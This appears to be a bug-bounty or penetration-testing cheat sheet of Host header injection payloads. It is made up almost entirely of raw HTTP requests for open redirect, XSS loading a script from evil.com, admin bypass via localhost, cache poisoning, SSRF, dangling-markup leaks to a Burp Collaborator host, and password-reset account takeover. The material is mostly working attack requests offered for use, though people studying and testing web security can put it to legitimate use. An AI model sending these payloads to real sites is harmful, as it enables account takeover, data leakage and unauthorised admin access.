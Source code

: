 # Host Header Atttack

### Host Poisoing = Open Redirect

```http
Host: evil.com

Responce:

Location: https://evil.com
```

### Host Poisoing = XSS

```http
Host: evil.com

Responce:

<script src=//evil.com/source.js>
```

### Host Header Authentication Bypass
```http
GET /admin HTTP/1.1
Host: localhost
```

```http
GET /admin HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
```

### Cache Poisoning via Ambiguous Request

```http
GET /admin HTTP/1.1
Host: victim.host.com
Host: SUBDOMAIN.burpcollaborator.net
```

### SSRF via Flawed Request Parsing

```http
GET https://victim.host.com HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
```
If you received HTTP request, test:

```http
GET https://victim.host.com HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
```

### Dangling Markup

```http
GET /admin HTTP/1.1
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
```

```http
POST /member/getpassword HTTP/1.1
Host: victim.host.com:'<a href="//SUBDOMAIN.burpcollaborator.net/?
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

### Host Validation Bypass via connection state attack

Burp Suite > Repeater > + > Create Tab Group > 1 & 2

1:
```
GET / HTTP/1.1
Host: victim.host.com
```
2:
```
GET / HTTP/1.1
Host: 192.168.0.1/24 <-- Intruder
or
Host: localhost <-- Intruder
Host: SUBDOMAIN.burpcollaborator.net
Host: victim.host.com:'<a href=//"SUBDOMAIN.burpcollaborator.net/?
...
Host: victim.host.com
Host: SUBDOMAIN.burpcollaborator.net

```
# P2 HIGH Account Takeover
```http
POST /member/getpassword HTTP/1.1
Host: SUBDOMAIN.burpcollaborator.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/37.0.2062.94 Safari/537.3
Content-Type: application/x-www-form-urlencoded

email=alice@livemail.com
```

https://application.security/free-application-security-training/owasp-top-10-host-header-injection
